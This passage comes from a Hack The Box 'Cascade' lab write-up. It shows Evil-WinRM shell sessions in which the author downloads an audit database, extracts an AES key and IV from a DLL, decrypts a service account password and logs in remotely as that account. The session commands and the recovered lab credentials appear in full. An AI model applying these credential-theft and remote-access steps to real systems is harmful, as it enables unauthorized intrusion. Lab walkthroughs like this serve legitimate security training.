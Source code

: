 ```ruby
*Evil-WinRM* PS C:\Shares\Audit\DB> download Audit.db
Info: Downloading C:\Shares\Audit\DB\Audit.db to Audit.db
                                                             
Info: Download successful!
```
* let's open the file in online DB viewer using this website . [SQL Online IDE](https://sqliteonline.com/).

* select open file then >> type 'SELECT * FROM LDAP;' 

![](https://i.ibb.co/2FZn7xy/ark.png)

* pingo! now we have the password of the third user , it's encoded in AES encryption  , let's decode it.

* now after some enumeration .

```ruby
*Evil-WinRM* PS C:\> cd Shares/Audit
*Evil-WinRM* PS C:\Shares\Audit> ls


    Directory: C:\Shares\Audit


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll

```
* i downloaded the file CascCrypto.dll and open it with ida and i found the 'IV' and the 'Secret Key'
* secret-key = "c4scadek3y654321"
* initialization vector = "1tdyjCbY1Ix49842"

![](https://i.ibb.co/5FcSKxN/iv.jpg)

* now open this [site](https://www.devglan.com/online-tools/aes-encryption-decryption)

![](https://i.ibb.co/9hRqtQG/decoder.png)

* Tha Password is : w3lc0meFr31nd.

* Let's Login with evil-winrm again:

```ruby
xdev05@XDev05:~/Documents/HTB/Cascade/evil-winrm$ ruby evil-winrm.rb -u 'Arksvc' -p 'w3lc0meFr31nd' -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> 

```
